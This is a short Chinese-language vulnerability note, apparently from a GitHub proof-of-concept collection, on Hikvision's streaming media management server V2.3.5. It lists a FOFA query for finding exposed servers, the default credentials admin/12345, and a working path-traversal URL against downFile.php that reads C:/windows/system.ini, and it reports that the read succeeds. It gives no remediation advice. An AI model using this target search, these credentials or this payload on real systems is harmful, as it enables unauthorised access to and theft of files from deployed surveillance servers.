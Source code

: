 <languages  />

漏洞影響
--------

    杭州海康威视数字技术股份有限公司 流媒体管理服务器 V2.3.5

FOFA
----

    FOFA：title="流媒体管理服务器"

默認登錄信息
------------

    admin/12345

POC
---

    http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini

成功讀取 C:/windows/system.ini

參考
----

<https://mp.weixin.qq.com/s/bnXxGWs0ft0G6Qcdlf9BDw>